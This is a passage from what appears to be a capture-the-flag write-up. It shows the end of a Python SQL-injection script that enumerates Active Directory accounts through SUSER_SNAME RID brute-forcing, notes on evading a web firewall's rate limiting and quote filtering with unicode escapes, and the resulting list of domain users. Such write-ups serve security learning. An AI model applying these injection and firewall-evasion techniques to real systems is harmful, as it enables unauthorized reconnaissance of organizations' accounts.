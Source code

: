 ```
    num = binascii.hexlify(struct.pack("<I", i)).decode()
    acct = issue_query(f"SUSER_SNAME({sid}{num})")
    if acct:
        print(f"\r[+] Found account [{i:05d}]  {acct}" + " " * 30)
    time.sleep(1)

print("\r" + " " * 50)

```

There were two tricky parts:
- The WAF has some kind of dumb rate limiting. I think it’s looking at requests over some time period and returning 403 if there are too many. I just have a loop that sleeps for 30 seconds and tries again if there’s a 403. The current parameters are to sleep 30 seconds on a 403, and 1 second between requests. It’s possible those could be optimized.
- Getting Python to actually send `\u0027` was tricker than I expected. I originally was doing `json={"name":""}` in the POST, but Python is too nice about formatting that. Changing it to `data` and setting it the way I have above took some trial and error through the proxy.
- Sending through Burp was really nice, and it didn’t really slow anything down since I was already going slow for the WAF.

The script finds new accounts I didn’t previously know about:

```

root@kali# ./get_domain_users.py 
[*] Finding domain
[+] Found domain: MEGACORP
[*] Finding Domain SID
[+] Found SID for MEGACORP domain: 0x0105000000000005150000001c00d1bcd181f1492bdfc236
[+] Found account [00500]  MEGACORP\Administrator                              
[+] Found account [00501]  MEGACORP\Guest                              
[+] Found account [00502]  MEGACORP\krbtgt                              
[+] Found account [00503]  MEGACORP\DefaultAccount                              
[+] Found account [00512]  MEGACORP\Domain Admins                              
[+] Found account [00513]  MEGACORP\Domain Users                              
[+] Found account [00514]  MEGACORP\Domain Guests                              
[+] Found account [00515]  MEGACORP\Domain Computers                              
[+] Found account [00516]  MEGACORP\Domain Controllers                              
[+] Found account [00517]  MEGACORP\Cert Publishers                              
[+] Found account [00518]  MEGACORP\Schema Admins                              
[+] Found account [00519]  MEGACORP\Enterprise Admins                              
[+] Found account [00520]  MEGACORP\Group Policy Creator Owners                              
[+] Found account [00521]  MEGACORP\Read-only Domain Controllers                              
[+] Found account [00522]  MEGACORP\Cloneable Domain Controllers                              
[+] Found account [00525]  MEGACORP\Protected Users                              
[+] Found account [00526]  MEGACORP\Key Admins                              
[+] Found account [00527]  MEGACORP\Enterprise Key Admins                              
[+] Found account [00553]  MEGACORP\RAS and IAS Servers                              
[+] Found account [00571]  MEGACORP\Allowed RODC Password Replication Group                              
[+] Found account [00572]  MEGACORP\Denied RODC Password Replication Group                              
[+] Found account [01000]  MEGACORP\MULTIMASTER$                              
[+] Found account [01101]  MEGACORP\DnsAdmins                              
[+] Found account [01102]  MEGACORP\DnsUpdateProxy                              
[+] Found account [01103]  MEGACORP\svc-nas                              
[+] Found account [01105]  MEGACORP\Privileged IT Accounts                              
[+] Found account [01110]  MEGACORP\tushikikatomo                              
[+] Found account [01111]  MEGACORP\andrew                              
[+] Found account [01112]  MEGACORP\lana                               
[+] Found account [01601]  MEGACORP\alice                              
[+] Found account [01602]  MEGACORP\test                               
[+] Found account [02101]  MEGACORP\dai                                
```
